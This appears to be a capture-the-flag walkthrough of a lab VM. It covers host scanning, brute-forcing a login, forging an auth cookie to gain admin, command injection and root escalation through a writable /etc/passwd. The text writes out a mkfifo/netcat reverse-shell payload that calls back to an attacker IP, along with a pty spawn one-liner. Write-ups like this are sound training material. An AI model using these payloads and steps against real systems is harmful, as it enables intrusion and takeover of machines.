### **Netdiscover**



We use the tools called netdiscover scan hosts, we found the 192.168.0.105 is our target virtualbox host ip.

------

### **Namp**



We found some services  <u>HTTP</u>

------

### Solution



We linked to this http://192.168.0.105/, found that register button is nothing uses. we only login to use.

So We found some interesting.

Because so many users, we decide choos one of them to test, so we use burp suite intrude to brute force.



We found this password for **ipadolpho** is **123456789**, So let's login.



Logan successfully!!! but we had nothing found in this pages, we saw wether this cookie/storge is what.



This is a key hint: auth_level : standard_user, may exists admin, So we inspect from man.js.



So we change standard_user to master_admin_user for us to be admin.



So we got admin successfully!!!



We could infer that we should user command line inject from "cli tools"

We choose $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.106 2333 >/tmp/f) at end, i tried bash and nc to reverse shell failed, so we tried mkfifo to reverse shell, Luckily, we did it.



Now we use find to enum that could own the suid file.



Nothing found. but we found /etc/passwd anyone can edit it, so we add a root user to it.





Found that we nedds a terminal, so we use python code

`python -c "import pty;pty.spawn('/bin/sh')"` 



Found his passwd is in /etc/shadow, So we use perl generate /etc/passwd password.





We login in root user successfully!!!



We can cd /root, the flag in it.



------

**That' all , Thanks for your watching**